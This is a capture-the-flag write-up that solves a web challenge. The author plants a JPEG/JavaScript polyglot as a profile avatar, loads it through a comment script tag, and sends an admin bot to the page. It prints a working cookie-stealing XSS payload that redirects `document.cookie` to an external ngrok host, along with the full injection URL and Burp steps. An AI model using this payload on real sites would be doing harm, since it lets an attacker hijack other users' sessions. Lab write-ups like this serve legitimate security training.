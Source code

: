 🚩 Third Challenge

### Question

![1.png](1.png)
> Link: http://54.82.54.16/

### Solution
- This is how the website looks like
- ![2.png](2.png)
- This challenge was another nice challenge but the cool thing was that we saw it before in another CTF (CyberWarriors-JordanCTF) that me and my team participated in and got the 19th place
- We couldn't solve it then but we knew how to solve it after the CTF ended from this [writeup](https://zoznoor23.medium.com/yogosha-christmas-ctf-kara-jutsus-access-write-up-4ff3f67984a3) by the talented **Hamza Nour**
- So what's better than nice & already solved challenge before to solve again? 😀
- So we know it's an **XSS** because there is a **bot link (admin report)** and **profile picture upload**!
- ![3.png](3.png)
- When searching for `XSS through jpg image` you will find this [article](https://medium.com/@Medusa0xf/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a) _(Hiding Javascript code inside JPG image using **Polyglot**)_
- There is this [amazing tool](https://github.com/js-on/jpeg_polyglot_xss) to create polyglot payloads, this way is better and easier than the ways explained in the references above (but they explain how it works tho which is nice to know) _[Unfortunately this tool didn't work for me tho, it might work for you? maybe - but later on I found out it's probably missing some characters from the original exploit explanation]_
- We need to create a payload to be inside a JPEG image to upload it as our avatar to the website
- ![5.png](5.png)
- Then there is a comment section which confirms in Home it's an XSS exploit
- ![8.png](8.png)
- When you submit that you see our XSS portal in the url and the comment being added to the home page
- ![9.png](9.png)
- Amazing! now to the cool part
- Instead of using the mentioned tool above which didn't work me, I read this [article from portswigger](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
- They've already crafted the [injected image](http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg) for you, all you have to do is to upload it and use burp repeater to edit the payload as follows
    - Open burp & start intercepting
    - Choose the injected image above and submit uploading it to the website
    - In burp, send the request to repeater and stop intercepting
    - Request should look like this in repeater
    - ![13.png](13.png)
- Now change the burp's payload (selected above) to your payload (below)
- `*/=document.location='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io/test?'+document.cookie/*`
- Send the request
- ![14.png](14.png)
- Once uploaded/sent you will get a warning and a `File is an image` message which means our injected image has been uplaoded successfully
- ![6.png](6.png)
- Now we need to get the file path of that avatar on the website using the HTML source code (Ctrl+U OR Right-Click > Inspect Element OR from burp response)
- ![7.png](7.png)
- Our image path was `./upload/1672270999151187401.jpg` which is `http://54.82.54.16//upload/1672270999151187401.jpg`and type that as a URL your injected image will be downloaded
- Now we need to add that image source to the home page using the comments section
- Note that we need to use `charset="ISO-8859-1"` in the img element due to this
- > On Firefox when using a UTF-8 character set for the document it corrupts the polyglot when included as an script! So to get the script to work we need to specify the ISO-8859–1 charset on the script tag and it executes fine.
- Here is out comment
```html
<script charset="ISO-8859-1" src="./upload/1672270999151187401.jpg"></script>
```
- ![10.png](10.png)
- This is the XSS link
```css
http://54.82.54.16//index.php?name=F30s&email=ayham&subject=IsHere&message=%3Cscript+charset%3D%22ISO-8859-1%22+src%3D%22.%2Fupload%2F1672270999151187401.jpg%22%3E%3C%2Fscript%3E&subcom=test
```
- Now we need to make the bot (in Admin Report) go to this XSS link
- ![11.png](11.png)
- VOILAAAA!!! You got the flag!
- ![12.png](12.png)
> Flag: `FLAG{K4ra_OnCe_Alw4y5_Kara????}`